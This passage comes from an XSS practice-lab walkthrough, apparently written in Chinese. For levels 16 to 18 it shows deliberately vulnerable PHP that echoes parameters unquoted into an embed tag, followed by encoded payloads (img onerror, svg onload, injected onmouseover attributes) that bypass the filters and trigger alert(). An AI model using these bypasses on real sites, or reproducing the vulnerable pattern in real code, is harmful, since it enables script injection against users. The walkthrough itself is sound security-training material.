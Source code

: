 ```shell
//对字符进行编码
`<img%0dsrc=1%0donerror=alert(16)>`
`<iframe%0dsrc=0%0donmouseover=alert｀16｀></iframe>`
`<svg%0aonload=alert｀16｀></svg>`
```

`Result`

![image-20200828203522683](/images/XSS/image-20200828203522683.png)

##### 挑战十七

```php+HTML
//加载swf文件，并对两个参数arg01和arg02值进行过滤
<?php
ini_set("display_errors", 0);
echo "<embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
?>
```

```shell
//使用编码%0a、%0b绕过。
`arg01=123&arg02= onmouseover=alert(1)`
`arg01=123&arg02=%20onmousedown=alert`1``
`arg01=123&arg02=  onmouseover=alert(1) type="text"`
``/level17.php?arg01=a&arg02=%20onmouseover=alert`1``
```

`Result`

![image-20200828220707491](/images/XSS/image-20200828220707491.png)

##### 挑战十八

````php+HTML
//和挑战十七的试题一致，可直接拿来利用测试
<?php
ini_set("display_errors", 0);
echo "<embed src=xsf02.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
?>
````

```shell
//使用编码%0a、%0b绕过。
`arg01=123&arg02= onmouseover=alert(1)`
`arg01=123&arg02=%20onmousedown=alert`1``
`arg01=123&arg02=  onmouseover=alert(1) type="text"`
`/level17.php?arg01=a&arg02=%20onmouseover=alert`1``
```

`Result`

![image-20200829095926257](/images/XSS/image-20200829095926257.png)
